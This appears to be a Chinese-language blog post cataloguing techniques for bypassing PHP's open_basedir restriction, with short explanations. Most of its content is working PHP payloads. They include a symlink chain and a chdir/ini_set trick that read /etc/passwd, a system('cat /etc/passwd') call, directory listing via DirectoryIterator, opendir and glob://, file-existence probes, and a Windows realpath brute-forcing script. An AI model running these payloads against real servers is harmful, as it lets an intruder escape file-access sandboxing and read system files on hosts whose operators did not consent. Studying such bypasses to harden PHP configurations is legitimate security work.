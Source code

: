 ```yaml
---
layout:     post
title:      PHP bypass open_basedir
subtitle:   简单记录绕过的几种方法
date:       2020-07-28
author:     BY Diego
header-img: /img/wenzhang/post-php-open_basedir.jpg
catalog: true
tags:
    - PHP
---
```


实验环境

![aPsSWq.png](https://s1.ax1x.com/2020/07/27/aPsSWq.png)



# symlink 绕过

前提：有足够的权限去创建文件

payload
```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
mkdir("E");
chdir("E");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D/E","bypass");
symlink("bypass/../../../../../etc/passwd","res");
unlink("bypass");
mkdir("bypass");
?>
```

原理 由于symlink 也受到`open_basedir`的限制 无法直接绕过限制， 先依次创建一个文件夹`A/B/C/D/E`，然后通过软连接让 `/var/www/html/dir/bypass -> /var/www/html/dir/A/B/C/D/E`,然后 `/var/www/html/dir/res -> /var/www/html/dir/bypass/../../../../../etc/passwd` ,也就是说 `/var/www/html/dir/res -> /var/www/html/dir/A/B/C/D/E/../../../../../etc/passwd = /var/www/html/dir/etc/passwd` 至此所有操作都是在`open_basedir`中操作的，再然后删除 `bypass` 文件再新建一个单纯的文件不在具有链接，现在res的指向变成了`/var/www/html/dir/res -> /var/www/html/dir/bypass/../../../../../etc/passwd = /etc/password`

![aPs9S0.png](https://s1.ax1x.com/2020/07/27/aPs9S0.png)




# glob

方法一

利用 `DirectoryIterator`

```php
<?php
$c = $_GET['c'];
$a = new DirectoryIterator($c);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

方法二

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```
只能列目录，php7可以用如下方法读非根目录文件

该方法测试发现除了根目录 与 `open_basedir`指定的目录，只要知道某个目录下的文件名称就可列目录
如 `/var` 下存在 `www` 目录，那么就可以对 `/var` 下任意目录进行列举

如 `glob:///*/www/../*` 就可列举   `/var`

![aPv07F.png](https://s1.ax1x.com/2020/07/27/aPv07F.png)

![aPvw0U.png](https://s1.ax1x.com/2020/07/27/aPvw0U.png)

# 系统命令函数

命令函数不受限制
```php
system('cat /etc/passwd');
```

# chdir 与 ini_set

```php
<?php
mkdir('aa');chdir('aa');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
?>
```

# bindtextdomain 与 SplFileInfo

只能确定目录文件是否存在，存在则返回路径 否则false
```php
<?php
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

```php
<?php
$info = new SplFileInfo($_GET['dir']);
var_dump($info->getRealPath());
?>
```

# realpath

仅限windows
```php

<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = '**';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {
        $file = $dir . $chars[$i] . '<><';
        realpath($file);
}
function isexists($errno, $errstr)
{
        $regexp = '/File\((.*)\) is not within/';
        preg_match($regexp, $errstr, $matches);
        if (isset($matches[1])) {
                printf("%s <br/>", $matches[1]);
        }
}
?>
```


# 其他

[php5全版本绕过open_basedir读文件脚本](https://www.leavesongs.com/bypass-open-basedir-readfile.html)

[浅谈几种Bypass open_basedir的方法](https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/)
